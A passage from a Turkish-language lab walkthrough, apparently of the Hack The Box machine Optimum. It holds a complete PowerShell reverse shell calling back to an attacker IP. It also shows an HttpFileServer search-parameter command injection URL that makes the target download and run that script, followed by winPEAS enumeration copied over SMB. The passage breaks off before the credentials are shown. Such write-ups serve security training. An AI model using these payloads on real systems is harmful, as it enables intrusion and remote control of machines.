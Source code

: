 ```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.9',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


Bunun bir kopyasını rev.ps1 olarak kaydedeceğim (sadece talep etmek üzere olduğum URL'yi daha kolay hale getirmek için). Sonra bir Python web sunucusu başlatacağım ve ziyaret edeceğim:

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.9/rev.ps1').}
```

Bu da Optimum'un web sunucusuna ulaşıp rev.ps1 dosyasını indirmesini (ilginç bir şekilde dört kez) tetikliyor:

![Pasted image 20250209180026.png](/img/user/resimler/Pasted%20image%2020250209180026.png)

![Pasted image 20250209180033.png](/img/user/resimler/Pasted%20image%2020250209180033.png)

![Pasted image 20250209180132.png](/img/user/resimler/Pasted%20image%2020250209180132.png)


## Shell as SYSTEM

### Enumeration - winPEAS

Yükselme yollarını aramak için [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) ile başladım. Deponun bir kopyasını hostuma klonladım, sudo smbserver.py share ile Windows exe ile yolda bir SMB sunucusu başlattım . -smb2support ile başlattım ve Optimum'a kopyaladım:

```
PS C:\programdata> copy \\10.10.14.10\share\winPEAS.exe .
```

Şimdi .\winPEAS.exe ile çalıştıracağım. Çıktıyı taradığımda birkaç ilginç şey gördüm.

Kutu Windows Server 2012 R2 ve 64-bit:

```
    Hostname: optimum                               
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard                       
    ReleaseId:                                      
    BuildBranch:                                    
    CurrentMajorVersionNumber:                      
    CurrentVersion: 6.3                             
    Architecture: AMD64
```


Kostas için Creds vardı:
